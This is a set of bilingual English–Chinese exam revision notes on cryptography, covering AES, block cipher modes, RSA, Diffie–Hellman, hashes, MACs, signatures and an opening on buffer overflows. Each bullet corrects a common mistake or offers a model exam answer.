- An S-box lookup uses the high nibble as the row and the low nibble as the column.S 盒查表时，以高 4 位为行，低 4 位为列。
- ShiftRows rotates row \(r\) left by \(r\) bytes, and row 0 stays. InvShiftRows rotates right.ShiftRows 把行 \(r\) 向左循环移动 \(r\) 个字节，第 0 行不动。InvShiftRows 则向右循环移动。
- In MixColumns every sum is XOR and every product is in GF(\(2^8\)). {03}·\(a\) = ({02}·\(a\)) ⊕ \(a\).在 MixColumns 中，所有的和都是 XOR，所有的乘积都在 GF(\(2^8\)) 中计算。{03}·\(a\) = ({02}·\(a\)) ⊕ \(a\)。
- After a left shift that loses a 1, XOR with {1B}, not with {11B}.左移后若丢失了一个 1，则与 {1B} 异或，而不是与 {11B} 异或。
- S is not its own inverse. Use the inverse S-box in decryption.S 不是它自己的逆。解密时要使用逆 S 盒。
- \(g\) is applied only when \(i\bmod 4=0\) (AES-128). Rcon changes only the leftmost byte of the word.\(g\) 仅在 \(i\bmod 4=0\) 时应用（AES-128）。Rcon 只改变字的最左字节。
- RotWord and SubWord act on one 4-byte word. ShiftRows and SubBytes act on the 16-byte State.RotWord 和 SubWord 作用于一个 4 字节的字。ShiftRows 和 SubBytes 作用于 16 字节的状态数组。
- Round \(r\) uses \(w[4r],\dots,w[4r+3]\), so the initial AddRoundKey uses \(w[0],\dots,w[3]\).轮 \(r\) 使用 \(w[4r],\dots,w[4r+3]\)，因此初始 AddRoundKey 使用 \(w[0],\dots,w[3]\)。
- \(RC[9]=\{1B\}\) and \(RC[10]=\{36\}\), not {100} and {200}: the doubling is in GF(\(2^8\)).\(RC[9]=\{1B\}\) 与 \(RC[10]=\{36\}\)，而不是 {100} 与 {200}：倍乘是在 GF(\(2^8\)) 中进行的。
- Decryption is not the same algorithm as encryption: it uses InvSubBytes, InvShiftRows, InvMixColumns and the round keys in reverse order.解密与加密并非同一算法：它使用 InvSubBytes、InvShiftRows、InvMixColumns，并按相反顺序使用轮密钥。
- In the equivalent inverse cipher InvMixColumns is applied to the round keys of rounds 1 to \(N_r-1\) only, not to all \(N_r+1\).在等价逆密码中，InvMixColumns 只作用于第 1 轮到第 \(N_r-1\) 轮的轮密钥，而不是所有 \(N_r+1\)。
- How to say it in the exam: "InvShiftRows and InvSubBytes commute, and InvMixColumns is linear, so InvMixColumns can be moved across AddRoundKey if the round key is transformed."考试中可以这样写：“InvShiftRows 与 InvSubBytes 可交换，且 InvMixColumns 是线性的，因此只要对轮密钥作相应变换，InvMixColumns 就可以移过 AddRoundKey。”
Chapter 7 Multiple Encryption and Block Cipher Modes
- Double DES has about 57 bits of strength, not 112: one known pair, \(2^{57}\) operations, \(2^{56}\) memory.双重 DES 的强度约为 57 比特，而非 112 比特：仅需一个已知明文对，\(2^{57}\) 次运算，\(2^{56}\) 存储。
- Three-key 3DES has 168 key bits but only 112-bit strength. Key length and strength are different things.三密钥 3DES 有 168 位密钥，但强度只有 112 位。密钥长度与强度是两回事。
- The middle step of EDE is a decryption only for compatibility with single DES.EDE 的中间一步是解密，只是为了与单重 DES 兼容。
- How to say it in the exam: "Encrypt P under every K1, decrypt C under every K2, and match the middle value."考试中可以这样写：“用每一个 K1 加密 P，用每一个 K2 解密 C，并匹配中间值。”
- ECB is not insecure because the cipher is weak. It is insecure because it is deterministic: the same block gives the same ciphertext.ECB 不安全，并不是因为密码本身弱，而是因为它是确定性的：同一个分组总是得到同一个密文。
- Any deterministic, stateless encryption of long messages has this flaw. A secure mode needs an IV or a nonce that differs for each message.任何对长消息进行的确定性、无状态加密都有这个缺陷。安全的模式需要一个对每条消息都不同的 IV 或一次性随机数。
- Padding is needed in ECB and CBC, not in CFB, OFB and CTR.ECB 和 CBC 需要填充，CFB、OFB 和 CTR 不需要。
- How to say it in the exam: "ECB leaks repeated blocks and lets the attacker rearrange them, so it is used only for single random values such as keys."考试中可以这样写：“ECB 会泄露重复的分组，并让攻击者可以重新排列它们，因此它只用于单个随机值，例如密钥。”
- In CBC a received error damages two blocks, not all later blocks. An error at the sender spreads through all later ciphertext blocks, yet the receiver recovers all but the one wrong block.在 CBC 中，接收端的错误只破坏两个分组，而不是之后的所有分组。发送端的错误则会扩散到之后所有的密文分组，但除了那个出错的分组外，其余明文都能正确恢复。
- In CBC the damaged block is garbled and the next block gets the exact bit flip. In CFB it is the other way round: the same bit first, then garbage.在 CBC 中，被破坏的分组变成乱码，下一个分组恰好出现同样的位翻转。在 CFB 中则相反：先是同样的位翻转，然后才是乱码。
- The IV of CBC and CFB must be unpredictable. A constant IV is a mistake.CBC 和 CFB 的 IV 必须不可预测。使用常数 IV 是错误的。
- How to say it in the exam: "CBC chains the previous ciphertext into the next block, so equal plaintexts no longer give equal ciphertexts."考试中可以这样写：“CBC 把前一个密文链接到下一个分组中，因此相同的明文不再得到相同的密文。”
- Never reuse a (key, nonce) pair in OFB, or a counter value in CTR. Two ciphertexts then XOR to the two plaintexts XORed.在 OFB 中永远不要重用（密钥，一次性随机数）组合，在 CTR 中也不要重用计数器值。此时两个密文异或，结果就等于两个明文异或。
- No error propagation does not mean safe. A flipped ciphertext bit flips the same plaintext bit, so the attacker can change the message in a controlled way.没有错误传播并不等于安全。密文中一位翻转会使明文中同一位翻转，因此攻击者可以有控制地修改消息。
- A lost bit is not harmless: in OFB and CTR it shifts the alignment and ruins all later data.丢失一位并非无害：在 OFB 和 CTR 中，它会使对齐错位，并破坏之后的全部数据。
- How to say it in the exam: "OFB and CTR turn the block cipher into a keystream generator, so the keystream must never repeat."考试中可以这样写：“OFB 和 CTR 把分组密码变成密钥流生成器，因此密钥流绝不能重复。”
- The table's error-propagation row is about the receiver. Say which block is garbled and which gets only a bit flip.表中“错误传播”一行讲的是接收方。请说明哪个分组被破坏，哪个分组只有一位翻转。
- Decryption in parallel is possible in CBC and CFB but not in OFB, because the OFB keystream is generated serially.CBC 和 CFB 的解密可以并行，但 OFB 不行，因为 OFB 的密钥流是串行生成的。
- None of the five modes detects a change of the ciphertext.五种模式都无法发现密文的改动。
- How to say it in the exam: "Choose CTR for speed and random access, OFB or CTR for noisy channels, CBC for general block data, and always add a MAC."考试中可以这样写：“追求速度和随机访问时选 CTR，信道有噪声时选 OFB 或 CTR，一般的分组数据选 CBC，并且始终附加 MAC。”
- A session key is one-time and per connection. A permanent key only distributes session keys and never encrypts user data.会话密钥只用一次，每个连接一把。长期密钥只用来分发会话密钥，从不加密用户数据。
- Option 3 exposes all later keys after one compromise. With a KDC each session key is fresh and independent.方案 3 一旦有一把密钥被截获，之后的所有密钥都会暴露。使用 KDC 时，每个会话密钥都是新的、彼此独立的。
- Compromise of one session key exposes one connection; of one host's permanent key, that host's connections; of the KDC, everything.一把会话密钥被攻破，暴露一个连接；一台主机的长期密钥被攻破，暴露这台主机的全部连接；KDC 被攻破，则全部暴露。
Chapter 8 Random Bit Generation and Stream Ciphers
- Randomness and unpredictability are different. A statistically good generator, the LCG, can be completely predictable.随机性和不可预测性是两回事。统计上性能良好的生成器（如 LCG）可能是完全可预测的。
- Independence is never proved, only not refuted by a battery of tests.独立性从来不能被证明，只能说一组测试没有将其推翻。
- A TRNG is not the better keystream source: the receiver cannot regenerate it.TRNG 并不是更好的密钥流来源：接收方无法重新生成它。
- How to say it in the exam: "A PRNG is secure if, without the seed, its output is computationally indistinguishable from random; the seed must therefore be unpredictable and normally comes from a TRNG."考试中可以这样写：“若不知道种子，PRNG 的输出在计算上与随机序列不可区分，则该 PRNG 是安全的；因此种子必须不可预测，通常来自 TRNG。”
- Randomness tests do not make an LCG secure: three outputs give \(a\) and \(c\).随机性检验并不能让 LCG 变得安全：三个输出就能给出 \(a\) 和 \(c\)。
- In the BBS formula the output is the parity of \(X_i\), not \(X_i\) itself, and \(X_0\) is not an output bit.在 BBS 公式中，输出是 \(X_i\) 的奇偶性，而不是 \(X_i\) 本身，\(X_0\) 也不是输出比特。
- BBS needs \(p\equiv q\equiv3\pmod4\) and a seed coprime to \(n\). Check both before you start.BBS 需要 \(p\equiv q\equiv3\pmod4\)，并且种子要与 \(n\) 互素。开始之前两者都要检查。
- How to say it in the exam: "BBS is secure if factoring \(n\) is hard; the LCG has no such property, since its linear structure is solved with three outputs."考试中可以这样写：“BBS 在分解 \(n\) 困难的前提下是安全的；LCG 没有这种性质，因为它的线性结构只需三个输出即可求解。”
- seedlen is outlen plus keylen, not keylen alone. For 3DES it is \(64+168=232\) bits.seedlen 是 outlen 加 keylen，而不只是 keylen。对于 3DES，它是 \(64+168=232\) 比特。
- Reseeding is a property of the generator and does not depend on the strength of the cipher.重新播种是生成器的一项性质，与密码的强度无关。
- The maximum output per seed is in blocks. Multiply by outlen to get bits.每个种子的最大输出以分组计。乘以 outlen 即得比特数。
- The same key and IV must never encrypt two messages, because \(c\oplus c'=p\oplus p'\) and the keystream cancels.同一密钥和 IV 绝不能加密两条消息，因为 \(c\oplus c'=p\oplus p'\)，两条密文异或后密钥流就被消去了。
- RC4 uses the key only in initialization. Generation never reads \(K\) again.RC4 只在初始化时使用密钥。生成过程从不再读取 \(K\)。
- In every swap, use the new \(j\). Take \(t\) after the swap.每次交换都要使用新的 \(j\)。交换之后再取 \(t\)。
- How to say it in the exam: "RC4 is fast and tiny but has a weak key schedule and keystream biases; RFC 7465 prohibits it in TLS."考试中可以这样写：“RC4 速度快、结构小巧，但密钥调度较弱，且密钥流存在偏置；RFC 7465 禁止在 TLS 中使用它。”
- A long period does not make an LFSR secure. \(2n\) known bits break it, so its feedback must not be the only structure.长周期并不能使 LFSR 安全。只要 \(2n\) 个已知比特即可破解它，因此不能只依赖反馈这一种结构。
- ChaCha20 has 20 rounds, so 10 double rounds, and each round applies 4 quarter-rounds.ChaCha20 有 20 轮，即 10 个双轮，每一轮应用 4 次四分之一轮。
- Reusing the nonce under one key repeats the keystream.在同一密钥下重复使用 nonce，会使密钥流重复。
- Raw TRNG output is assumed biased. Conditioning is needed before use, with a hash or a block cipher.原始 TRNG 输出被假定有偏。使用前必须经过调理，例如用哈希函数或分组密码。
- The SP 800-22 tests are not health tests for the noise source. They suit the conditioner output.SP 800-22 检验不是噪声源的健康检验，它们适用于调理器的输出。
- The Repetition Count Test catches only a catastrophic failure, a source stuck on one value.重复计数检验只能发现灾难性故障，即信源卡在某一个值上。
Chapter 9 Public-Key Cryptography and RSA
- Confidentiality: the sender encrypts with the receiver's public key. Signature: the sender encrypts with its own private key.机密性：发送方用接收方的公钥加密。签名：发送方用自己的私钥加密。
- A signature alone never gives confidentiality, because the verification key is public.单独的签名从不提供机密性，因为验证密钥是公开的。
- "Public-key encryption is more secure" is false. Security depends on key length and work factor.“公钥加密更安全”这种说法是错的。安全性取决于密钥长度和工作量。
- How to say it in the exam: "Public-key encryption protects a session key or a hash; a symmetric cipher protects the bulk data."考试中可以这样写：“公钥加密保护会话密钥或散列值；对称密码保护大量数据。”
- Check \(\gcd(e,\phi(n))=1\) and \(ed \bmod \phi(n)=1\). Use \(\phi(n)=(p-1)(q-1)\) only for two distinct primes.检查 \(\gcd(e,\phi(n))=1\) 和 \(ed \bmod \phi(n)=1\)。\(\phi(n)=(p-1)(q-1)\) 只能用于两个不同的素数。
- Reduce modulo \(n\) after every multiplication. Never compute \(M^e\) first: \(88^7\) already has 14 digits.每次乘法之后都对 \(n\) 取模。千万不要先算 \(M^e\)：\(88^7\) 已经有 14 位数字了。
- Check by decrypting. The plaintext block must be below \(n\).用解密来检验。明文分组必须小于 \(n\)。
- A modulus built from non-primes (such as 20 and 14) breaks the formula for \(\phi(n)\), and decryption fails.如果模数由非素数构成（例如 20 和 14），\(\phi(n)\) 的公式就不再成立，解密会失败。
- Unpadded RSA is deterministic: equal blocks give equal ciphertext blocks.不加填充的 RSA 是确定性的：相同的明文分组会得到相同的密文分组。
- Do not square the exponent: the bits of \(b\) decide when to multiply, and the squarings are on the running result \(f\).不要对指数做平方：\(b\) 的各位决定何时相乘，而平方运算作用在当前结果 \(f\) 上。
- A table row must show the value after reduction modulo \(n\), not the raw product.表格中的每一行都必须写出对 \(n\) 取模之后的值，而不是原始乘积。
- The broadcast attack needs pairwise coprime moduli and the same message. The defence is random padding, not a longer key.广播攻击需要模数两两互素，并且发送的是同一条消息。防御方法是随机填充，而不是加长密钥。
- CRT decryption needs the secret \(p\) and \(q\), so only the key owner can use it.CRT 解密需要秘密的 \(p\) 和 \(q\)，因此只有密钥的所有者才能使用它。
- The expected number of candidates is \((\ln N)/2\), not \(\ln N\): the factor 2 comes from skipping even numbers.候选数的期望值是 \((\ln N)/2\)，而不是 \(\ln N\)：因子 2 来自跳过偶数。
- Passing Miller–Rabin means "probably prime". Failing proves "composite".通过 Miller–Rabin 检验只说明“可能是素数”；未通过则证明它是合数。
- Choosing \(p\) and \(q\) with equal length does not mean choosing them close in value.选取长度相同的 \(p\) 和 \(q\)，并不意味着它们的数值接近。
- \(\phi(n)\) must stay secret. Publishing it is the same as publishing \(p\) and \(q\).\(\phi(n)\) 必须保密。公开它等同于公开 \(p\) 和 \(q\)。
- A modulus is measured in bits, not in decimal digits: RSA-155 has 155 digits but 512 bits.模数用位数而不是十进制位数来衡量：RSA-155 有 155 位十进制数字，但它是 512 位。
- Factoring is only the best known attack, not a proof of security.因数分解只是目前已知的最佳攻击，并不是安全性的证明。
- How to say it in the exam: "Computing \(\phi(n)\) is equivalent to factoring \(n\), so the security of RSA rests on the difficulty of factoring; at least 2048 bits are recommended."考试中可以这样写：“计算 \(\phi(n)\) 等价于分解 \(n\)，所以 RSA 的安全性依赖于因数分解的困难性；建议至少使用 2048 位。”
- Timing attack: blinding. Chosen-ciphertext and probable-message attacks: OAEP padding. Small-\(e\) broadcast attack: random padding. Fault attack: physical protection.计时攻击：盲化。选择密文攻击和可能消息攻击：OAEP 填充。小 \(e\) 的广播攻击：随机填充。故障攻击：物理防护。
- A timing attack needs no plaintext, only ciphertexts and times.计时攻击不需要明文，只需要密文和耗时。
- A small random delay is not a complete defence: with enough measurements the attacker averages out the noise.随机的小延迟并不是完整的防御：只要测量次数足够多，攻击者就能把噪声平均掉。
- How to say it in the exam: "Unpadded RSA is deterministic and multiplicative, so it must be used with randomized padding such as OAEP."考试中可以这样写：“未加填充的 RSA 是确定性的且具有乘法性，因此必须配合随机化填充（如 OAEP）使用。”
Chapter 10 Diffie–Hellman, ElGamal and Elliptic Curve Cryptography
- \(\alpha\) must be a primitive root of \(q\). Another \(\alpha\) confines the powers to a smaller set and shrinks the key space.\(\alpha\) 必须是 \(q\) 的原根。若取另一个 \(\alpha\)，各次幂就会被限制在一个更小的集合中，密钥空间随之变小。
- The private exponents are never sent. Only \(Y_A\) and \(Y_B\) travel.私钥指数从不发送，只有 \(Y_A\) 和 \(Y_B\) 会在网络上传输。
- Diffie–Hellman only exchanges a key. It neither encrypts nor authenticates (Section 10.2).Diffie–Hellman 只负责交换密钥，它既不加密，也不认证（见第 10.2 节）。
- How to say it in the exam: "Each side raises the other's public value to its private exponent. Both get \(\alpha^{X_AX_B} \bmod q\). An eavesdropper would need a discrete logarithm."考试中可以这样写：“双方各自把对方的公开值求自己私钥指数次幂，得到相同的 \(\alpha^{X_AX_B} \bmod q\)。窃听者则需要求解离散对数。”
- Encrypting the traffic with the Diffie–Hellman key does not reveal the attack. Darth holds a valid key with each victim, so every decryption succeeds.用 Diffie–Hellman 密钥加密通信，并不会暴露这次攻击。Darth 与每个受害者都持有有效的密钥，因此每次解密都会成功。
- The victims end up with two different keys, \(K_1\) and \(K_2\). The honest key \(\alpha^{X_AX_B}\bmod q\) never appears.受害者最终得到两把不同的密钥，即 \(K_1\) 和 \(K_2\)。正常的密钥 \(\alpha^{X_AX_B}\bmod q\) 从未出现。
- One key pair for Darth is enough. His \(X_D\) gives two different keys because \(X_A\ne X_B\) (Practice Q1).Darth 只需一对密钥即可。他的 \(X_D\) 之所以能给出两把不同的密钥，是因为 \(X_A\ne X_B\)（见练习 Q1）。
- How to say it in the exam: "Darth substitutes his own public keys because they are unauthenticated. Signatures with certified keys prevent the substitution."考试中可以这样写：“由于公钥未经认证，Darth 可以把它替换成自己的公钥。使用带证书的密钥进行签名，就能防止这种替换。”
- Decryption multiplies by the modular inverse \(K^{-1}\). It is not an ordinary division by \(K\).解密时要乘以模逆元 \(K^{-1}\)。它不是普通意义上除以 \(K\)。
- A reused \(k\) is recognised by two equal \(C_1\) values.若 \(k\) 被重复使用，可以从两个相等的 \(C_1\) 值看出来。
- The ciphertext is a pair, so it is twice as long as the plaintext.密文是一个数对，因此长度是明文的两倍。
- How to say it in the exam: "Encrypt: \(C_1=\alpha^k\), \(C_2=Y_A^{\,k}M\). Decrypt: \(M=C_2\,(C_1^{X_A})^{-1}\bmod q\). Security is the discrete logarithm problem modulo \(q\)."考试中可以这样写：“加密：\(C_1=\alpha^k\)、\(C_2=Y_A^{\,k}M\)。解密：\(M=C_2\,(C_1^{X_A})^{-1}\bmod q\)。安全性即模 \(q\) 的离散对数问题。”
- First check \((4a^3+27b^2)\bmod p\ne0\), and that the given points satisfy the equation.首先检查 \((4a^3+27b^2)\bmod p\ne0\)，并检验给定的点满足方程。
- Use the chord slope only for \(P\ne\pm Q\). For \(P=Q\) use \((3x_P^2+a)/(2y_P)\). For \(Q=-P\) the sum is \(O\).弦的斜率只用于 \(P\ne\pm Q\)。对于 \(P=Q\)，使用 \((3x_P^2+a)/(2y_P)\)。对于 \(Q=-P\)，其和为 \(O\)。
- Divide by multiplying with the modular inverse, and reduce negative numbers modulo \(p\).除法就是乘以模逆元，并把负数对 \(p\) 取模。
- Finish by checking that the result lies on the curve.最后检验结果确实位于曲线上。
- The shared secret is a point. Use its x-coordinate as the key.共享秘密是一个点。取它的 x 坐标作为密钥。
- Decryption subtracts \(n_B(kG)\), which means adding its negative (same \(x\), opposite \(y\)).解密时要减去 \(n_B(kG)\)，这等于加上它的负点（\(x\) 相同，\(y\) 相反）。
- Multiples can be reduced with the order: if \(19G=O\) then \(21G=2G\).倍数可以利用阶来化简：若 \(19G=O\)，则 \(21G=2G\)。
- How to say it in the exam: "Equal security at far smaller key size; the trade-off is a more complex scheme and less cryptanalytic history."考试中可以这样写：“在小得多的密钥长度下安全性相当；代价是方案更复杂，且密码分析的历史较短。”
Chapter 11 Cryptographic Hash Functions
- "Message plus hash" is not authentication: \(H\) is public and keyless.“消息加散列值”并不是认证：\(H\) 是公开的，且没有密钥。
- Scheme (b) gives authentication only, because the message itself is sent in clear.方案 (b) 只提供认证，因为消息本身是明文发送的。
- In scheme (c) the secret \(S\) is never transmitted.在方案 (c) 中，秘密 \(S\) 从不被发送。
- How to say it in the exam: "A hash sent with a message must itself be protected, because \(H\) is public and an attacker can recompute it."考试中可以这样写：“随消息一起发送的散列值本身必须受到保护，因为 \(H\) 是公开的，攻击者可以重新计算它。”
- "Collision resistant" does not mean "no collisions exist": by counting they must exist.“抗碰撞”并不意味着“不存在碰撞”：按计数，碰撞必然存在。
- Collision resistance implies second preimage resistance and nothing else follows. Brute-force effort: \(2^n\), \(2^n\), \(2^{n/2}\).抗碰撞性蕴含抗第二原像性，除此之外没有其他蕴含关系。暴力攻击的工作量：\(2^n\)、\(2^n\)、\(2^{n/2}\)。
- Encrypting an XOR checksum does not make it secure.对 XOR 校验和加密并不能使它变得安全。
- How to say it in the exam: "Preimage: given \(h\). Second preimage: given \(x\). Collision: the attacker chooses both messages."考试中可以这样写：“原像：给定 \(h\)。第二原像：给定 \(x\)。碰撞：攻击者自己选取两条消息。”
- Preimage and second preimage cost \(2^n\), but a collision costs only \(2^{n/2}\). Do not mix them up.求原像和求第二原像的代价都是 \(2^n\)，但碰撞只需 \(2^{n/2}\)。不要把它们混淆。
- The probability 0.5 needs \(1.1774\sqrt N\) values, not \(\sqrt N\).概率 0.5 需要的是 \(1.1774\sqrt N\) 个值，而不是 \(\sqrt N\) 个。
- Yuval's attack needs storage of \(2^{n/2}\) hashes, not only time.Yuval 攻击不仅需要时间，还需要存储 \(2^{n/2}\) 个散列值。
- How to say it in the exam: "Collision security is half the digest length in bits, so \(2^{128}\) security needs a 256-bit digest."考试中可以这样写：“碰撞安全性是摘要位数的一半，因此 \(2^{128}\) 的安全性需要 256 位的摘要。”
- The length in the padding is what makes the proof work.填充中的长度正是使证明成立的关键。
- The security statement is one-directional: collision resistant \(f\) gives collision resistant \(H\).安全性陈述是单向的：若 \(f\) 抗碰撞，则 \(H\) 也抗碰撞。
- Collision security is \(2^{n/2}\) for every row of the table, not \(2^n\).碰撞安全性在表中每一行都是 \(2^{n/2}\)，而不是 \(2^n\)。
- How to say it in the exam: "An iterated hash chains a compression function over the blocks; it is collision resistant if the compression function is, but it allows length extension."考试中可以这样写：“迭代散列通过压缩函数依次处理各个分组；若压缩函数抗碰撞，则它也抗碰撞，但它允许长度扩展。”
- Padding is always added: a length of exactly 896 mod 1024 still gets 1024 padding bits.填充总是要加：即使长度恰好模 1024 余 896，仍然要加 1024 个填充比特。
- The 128-bit length field comes after the padding and holds the original length, not the padded length.128 比特的长度字段位于填充之后，保存的是原始长度，而不是填充后的长度。
- \(W_0\) to \(W_{15}\) come from the block; only \(W_{16}\) to \(W_{79}\) use the schedule formula.\(W_0\) 至 \(W_{15}\) 直接取自分组；只有 \(W_{16}\) 至 \(W_{79}\) 才使用调度公式。
- How to say it in the exam: "SHA-512 is an iterated hash whose compression function runs 80 rounds on a 512-bit buffer and adds the result back to the input chaining value."考试中可以这样写：“SHA-512 是一种迭代散列，其压缩函数在 512 位缓冲区上运行 80 轮，并将结果加回到输入的链接值上。”
Chapter 12 Message Authentication Codes and Authenticated Encryption
- The check value must be computed before encryption and placed inside it. Outside the encryption it authenticates nothing.校验值必须在加密之前计算，并放在加密的内部。放在加密之外，它不能认证任何东西。
- Encrypting with the receiver's public key does not identify the sender.用接收方的公钥加密并不能识别发送者。
- A hash code alone is not an authenticator: anyone can recompute it.单独的哈希码不是认证符：任何人都可以重新计算它。
- How to say it in the exam: "Encryption authenticates only if the receiver can recognise valid plaintext, so redundancy is added before encrypting."考试中可以这样写：“只有接收方能够识别合法的明文，加密才能起到认证作用，因此要在加密之前加入冗余。”
- A MAC gives integrity and origin authentication, never non-repudiation, because the key is shared.MAC 提供完整性和来源认证，但不提供不可否认性，因为密钥是共享的。
- The strength is \(\min(2^k,2^n)\), not \(2^k\). A long key with a short tag is weak.强度取决于 \(\min(2^k,2^n)\)，而不是 \(2^k\)。长密钥配短标签是弱的。
- One known pair is not enough to find the key when \(k>n\): about \(2^{k-n}\) keys survive.当 \(k>n\) 时，一个已知对不足以找到密钥：约有 \(2^{k-n}\) 个密钥仍然保留。
- How to say it in the exam: "Because the MAC is many-to-one, one known pair leaves about \(2^{k-n}\) candidate keys, so the attacker needs further pairs; the total effort is about \(2^k\)."考试中可以这样写：“由于 MAC 是多对一的，一个已知对之后仍约有 \(2^{k-n}\) 个候选密钥，因此攻击者需要更多的对；总代价约为 \(2^k\)。”
- Write the formula exactly: ipad = 0x36, opad = 0x5C, \(K^+\) of \(b\) bits, outer hash over the key block and the inner result.把公式完整写出来：ipad = 0x36，opad = 0x5C，\(K^+\) 为 \(b\) 比特，外层哈希作用于密钥块和内层结果。
- The extra cost is 3 compression calls, not 3 hash computations. With precomputation it is 1.额外代价是 3 次压缩函数调用，而不是 3 次哈希计算。若预计算，则只需 1 次。
- A collision attack on the hash does not carry over to HMAC, because the attacker needs tags under the secret key.对哈希的碰撞攻击不能直接用于 HMAC，因为攻击者需要的是在秘密密钥下的标签。
- How to say it in the exam: "HMAC treats the hash as a black box, so the hash can be replaced, for example SHA-2 by SHA-3, without redesigning the MAC."考试中可以这样写：“HMAC 将散列函数视为黑箱，因此可以替换散列函数（例如以 SHA-3 替代 SHA-2），而无需重新设计 MAC。”
- CBC-MAC is secure only for fixed-length messages. Quote the forgery \(X\Vert(X\oplus T)\) with tag \(T\).CBC-MAC 只对固定长度的消息是安全的。引用伪造：\(X\Vert(X\oplus T)\) 带标签 \(T\)。
- The subkey is XORed in before the final encryption. XORed in after it, the mask cancels in XORs of tags and the MAC can be forged (Practice Q3).子密钥要在最终加密之前异或进去。若在加密之后异或，掩码会在标签的异或运算中相互抵消，MAC 就能被伪造（见练习 Q3）。
- A message that fills the last block exactly uses \(K_1\), not \(K_2\). A 24-byte message with 8-byte blocks is complete.恰好填满最后一块的消息使用 \(K_1\)，而不是 \(K_2\)。8 字节块的 24 字节消息是完整的。
- Verify-before-decrypt happens only in E→A. The other three decrypt first.只有 E→A 会先验证再解密。其他三种都先解密。
- Associated data is authenticated but not encrypted. A nonce repeated under one key breaks CTR-based modes: two plaintexts \(P_1\) and \(P_2\) with ciphertexts \(C_1\) and \(C_2\) give \(C_1\oplus C_2=P_1\oplus P_2\).关联数据需要认证但不加密。在同一密钥下重复使用 nonce 会破坏基于 CTR 的模式：两个明文 \(P_1\) 和 \(P_2\)，其密文分别为 \(C_1\) 和 \(C_2\)，则得到 \(C_1\oplus C_2=P_1\oplus P_2\)。
- CCM's tag is over the plaintext and then encrypted. GCM's tag is over the ciphertext.CCM 的标签是对明文计算的，然后再加密；GCM 的标签是对密文计算的。
- How to say it in the exam: "CCM is CTR plus CBC-MAC in two passes; GCM is CTR plus GHASH in one parallel pass."考试中可以这样写：“CCM 是 CTR 加 CBC-MAC，分两遍完成；GCM 是 CTR 加 GHASH，一遍并行完成。”
Chapter 13 Digital Signatures and Public-Key Certificates
- A signature does not give confidentiality: the message is in the clear. For secrecy, sign first, then encrypt.签名不提供机密性：消息是明文。要保密，应先签名，再加密。
- A MAC gives authentication, but not non-repudiation. The receiver can create every valid MAC.MAC 提供认证，但不提供不可否认性。接收方可以生成所有有效的 MAC。
- Existential forgery is the weakest outcome, not the strongest. Total break is the strongest.存在性伪造是最弱的结果，而不是最强的。完全破解才是最强的。
- Textbook RSA without a hash allows a forgery: choose \(S'\), then compute \(h'=S'^{\,e} \bmod n\).没有哈希的教科书式 RSA 允许伪造：先选择 \(S'\)，再计算 \(h'=S'^{\,e} \bmod n\)。
- How to say it in the exam: "A signature proves who signed and that nothing changed, and anybody can verify it. It does not hide the message."考试中可以这样写：“签名证明了是谁签的名、内容没有被改动，而且任何人都能验证。它并不隐藏消息。”
- \(S_2\) is computed modulo \(q-1\), but \(S_1\) and the verification are modulo \(q\).\(S_2\) 是模 \(q-1\) 计算的，但 \(S_1\) 和验证是模 \(q\) 进行的。
- \(K\) must be coprime to \(q-1\), or \(K^{-1} \bmod (q-1)\) does not exist.\(K\) 必须与 \(q-1\) 互素，否则 \(K^{-1} \bmod (q-1)\) 不存在。
- A leaked or repeated \(K\) (ElGamal) or \(r\) (Schnorr) reveals the private key.ElGamal 中的 \(K\) 或 Schnorr 中的 \(r\) 一旦泄露或重复，就会暴露私钥。
- DSA does not encrypt the hash and does not decrypt the signature. The verifier recomputes a value \(v\) and compares it with \(r\).DSA 不对哈希值加密，也不对签名解密。验证者重新计算一个值 \(v\)，并把它与 \(r\) 比较。
- \(k\) must be secret, random and never reused. Reuse reveals \(x\) (or \(d\)).\(k\) 必须保密、随机，且绝不能重复使用。重复使用会泄露 \(x\)（或 \(d\)）。
- \(s=0\) is not allowed: \(s^{-1}\) would not exist, and the signature would reveal \(x\).\(s=0\) 不允许取值：否则 \(s^{-1}\) 将不存在，而且签名会泄露 \(x\)。
- How to say it in the exam: "DSA outputs \((r,s)\). The verifier recomputes \(r\) from public data only."考试中可以这样写：“DSA 输出 \((r,s)\)。验证者只用公开数据重新计算 \(r\)。”
- The bits cleared in the leftmost octet are \(8\,emLen-emBits\). For a 2048-bit modulus this is 1 bit.最左边八位组中被清零的比特是 \(8\,emLen-emBits\)。对于 2048 位的模数，这里清零的比特数是 1。
- The salt is public and only adds randomness. The DSA, ECDSA, ElGamal and Schnorr random numbers must be secret.盐值是公开的，它只增加随机性。DSA、ECDSA、ElGamal 和 Schnorr 中的随机数必须保密。
- A certificate needs the CA's public key to be checked. That key must itself arrive authentically.检查证书需要 CA 的公钥，而这把公钥本身也必须是真实可靠地获得的。
- The CA signs the hash of the certificate; it does not encrypt the certificate.CA 对证书的哈希值签名，而不是对证书加密。
- Unauthenticated Diffie–Hellman is open to a man-in-the-middle.未经认证的 Diffie–Hellman 容易受到中间人攻击。
- How to say it in the exam: "A certificate is a CA signature over the identity and the public key. The verifier needs only the CA's public key."考试中可以这样写：“证书是 CA 对身份和公钥的签名。验证者只需要 CA 的公钥。”
Chapter 14 Buffer Overflow and Stack Overflow Attacks
- The bug is the missing size check at the copy, not the place where the data was first read. A safe read does not make a later unchecked copy safe.错误在于复制时缺少大小检查，而不在于数据最初被读取的地方。安全地读取数据并不能使之后不加检查的复制变得安全。
strncmp(tag, resp, 8)limits the comparison, not the earlier write. It does not undo an overflow.strncmp(tag, resp, 8)限制的是比较的范围，而不是之前的写入。它并不能撤销溢出。- A buffer overflow does not need to hijack control. Overwriting a neighbouring variable can already defeat the logic.缓冲区溢出并不一定要劫持控制流。覆盖相邻的变量，就足以攻破程序的逻辑。
- How to say it in the exam: "A buffer overflow is a program writing more data into a fixed-size buffer than it holds, so that adjacent memory is overwritten. It can occur on the stack, on the heap or in global data."考试中可以这样写：“缓冲区溢出是指程序向固定大小的缓冲区写入超过其容量的数据，从而覆盖相邻的内存。它可能发生在栈上、堆上或全局数据中。”
- Say "grows downward". Locals sit below the saved frame pointer and the return address, at lower addresses.记住“向下增长”。局部变量位于保存的帧指针和返回地址之下，即位于较低的地址处。
- An overflow of a local buffer writes toward higher addresses. So it reaches the saved frame pointer first and the return address second.对局部缓冲区的溢出是向更高的地址方向写入的，因此它先碰到保存的帧指针，然后是返回地址。
- Each call needs its own frame because of recursion: a function that calls itself would otherwise overwrite its own earlier locals.每次调用都需要自己的帧，这是为了递归：如果一个函数调用自身，它会覆盖自己先前的局部变量。
